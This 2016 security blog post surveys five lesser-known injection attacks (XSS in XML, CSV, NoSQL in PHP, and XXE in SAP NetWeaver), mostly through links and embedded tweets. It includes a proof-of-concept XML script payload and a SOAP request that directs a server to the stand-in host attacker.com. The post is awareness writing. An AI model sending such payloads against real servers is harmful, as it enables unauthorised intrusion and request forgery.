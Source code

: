 +++
aliases = [ "20160723" ]
date = "2016-07-23"
title = "5 Interesting Injection Attacks"
+++

Everyone is familiar with SQLi and XSS.  To spice things up, here five more unusual injection attacks that have appeared recently.

<!--more-->

In no particular order:

### XSS in your XML

This "XSS in XML" exploit appears to work in Chrome but not Safari (and didn't test in Firefox).

http://sdl.me/XSSDemo/xss-xml-frames.html

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">XSS in XML - exploitation demo to run an external JS in full DOM: <a href="https://t.co/42gqNp51zb">https://t.co/42gqNp51zb</a></p>&mdash; Soroush Dalili (@irsdl) <a href="https://twitter.com/irsdl/status/753925964179136512">July 15, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


### Another XSS in your XML


```xml
<x:script xmlns:x="http://www.w3.org/1999/xhtml" src="data:,alert(1)" />
```

http://vulnerabledoma.in/char_test?mime=text/xml&body=%3Cx:script%20xmlns:x=%22http://www.w3.org/1999/xhtml%22%20src=%22data:,alert(1)%22%20/%3E

via

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">An XML &quot;obfuscated&quot; one by <a href="https://twitter.com/kinugawamasato">@kinugawamasato</a> : <a href="https://t.co/zk8IWRTKse">https://t.co/zk8IWRTKse</a></p>&mdash; XSS Payloads (@XssPayloads) <a href="https://twitter.com/XssPayloads/status/752538375702347776">July 11, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


### CSV Injection

Yes, "Comma Separated Value" injection.  Really???  https://blog.zsec.uk/csv-dangers-mitigations/  The advice is the usual

  It should also be considered that all user input be not trusted
  and as a result any output should be encoded. 

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">CSV Injection Revisited - Making Things More Dangerious (and fun) : <a href="https://t.co/7uSqcGNiou">https://t.co/7uSqcGNiou</a></p>&mdash; Binni Shah (@binitamshah) <a href="https://twitter.com/binitamshah/status/756804309010919424">July 23, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


### NoSQL Injection

This should really be NoSQL injection using PHP, as the techniques appear to specific to PHP's drivers.

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">Good read from Nikhil Mattal on MongoDB security and injection attacks with PHP. <a href="https://t.co/evhJHyfNEy">https://t.co/evhJHyfNEy</a> <a href="https://t.co/2ubDYb6FKR">pic.twitter.com/2ubDYb6FKR</a></p>&mdash; Jessica Hall (@JessHallway) <a href="https://twitter.com/JessHallway/status/743529851722825729">June 16, 2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js" charset="utf-8"></script>


This may or may not be a re-hash of [Analysis and Mitigation of NoSQL Injections](http://ieeexplore.ieee.org/xpl/login.jsp?tp=&arnumber=7448357&url=http%3A%2F%2Fieeexplore.ieee.org%2Fiel7%2F8013%2F7448333%2F07448357.pdf%3Farnumber%3D7448357) which came out a few months earlier.

  NoSQL data storage systems have become very popular due to their scalability
  and ease of use. Unfortunately, they lack the security measures and awareness
  that are required for data protection. Although the new data models and query
  formats of NoSQL data stores make old attacks such as SQL injections
  irrelevant, they give attackers new opportunities for injecting their
  malicious code into the statements passed to the database. Analysis of the
  techniques for injecting malicious code into NoSQL data stores provides
  examples of new NoSQL injections as well as Cross-Site Request Forgery
  attacks, allowing attackers to bypass perimeter defenses such as firewalls.
  Analysis of the source of these vulnerabilities and present methodologies can
  mitigate such attacks. Because code analysis alone is insufficient to prevent
  attacks in today's typical large-scale deployment, certain mitigations should
  be done throughout the entire software life cycle.

## XXE Injection

XXE Injection is always a bit of a weirdo.

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">SAP
NetWeaver AS JAVA 7.5 XXE Injection <a
href="https://t.co/Rf0s6GBPhP">https://t.co/Rf0s6GBPhP</a> <a
href="https://twitter.com/hashtag/exploit?src=hash">#exploit</a></p>&mdash;
packet storm (@packet_storm) <a
href="https://twitter.com/packet_storm/status/743978466169724928">June 18,
2016</a></blockquote> <script async src="//platform.twitter.com/widgets.js"
charset="utf-8"></script>

By uploading a XML file with an external XML entity, you can make the server
send or retrieve arbitrary files or URLs.  The example here is:

```xml
<SOAP-ENV:Envelope
xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<SOAP-ENV:Body>
 <m:XXX xmlns:m="http://sap.com/monitoring/ws/sn/">
   <url>attacker.com</url>
 </m:XXX>
 </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

